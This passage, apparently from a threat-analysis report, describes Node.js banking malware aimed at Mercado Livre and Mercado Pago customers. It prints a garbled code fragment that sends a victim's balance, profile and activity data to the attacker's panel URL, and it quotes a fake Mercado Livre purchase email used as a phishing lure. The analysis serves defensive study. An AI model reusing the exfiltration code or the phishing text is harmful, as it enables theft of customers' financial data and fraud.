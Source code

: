 #### FIGURE 41

The Node.js malware create the json to send information about new customer

| console.log(await httpPost( ${painel url}/newMercadoPago.php`, | uid: uid.uid, |
| --- | --- |
| data: JSON.stringify({ | saldo: dinheiroText, |
| perfil: perfilText, | atividades: atividadesText |

#### Sending Fake Emails

Once the user makes a transaction, the script will use a function called sendEmail() to automatically send an fake email (allegedly to be on the behalf of Mercado Livre) informing the customer about the purchase that they made. In this fake email, "Mercado Livre" sends the following message:

> "Your order has been successfully billed on our system, Order No.: 112187194961661 generated on 9/22/2020 at 09:33:48 PM Status: APPROVED!

Order amount: R $ 4661.22 payment billed in 4X (Boleto Bancário).

Attached are the accesses containing the data listed above:

Access Key: 3872190867349812064732892309012388561092"

To increase the legitimacy of the message, the customer is also informed that the email has been scanned by Avast and does not contain any virus:

```
FIGURE 42 
                                                The Node.js malware sendEmail function
30
                                                             NF-e: NEW OF
```
![](_page_23_Picture_12.jpeg)

![](_page_24_Figure_1.jpeg)
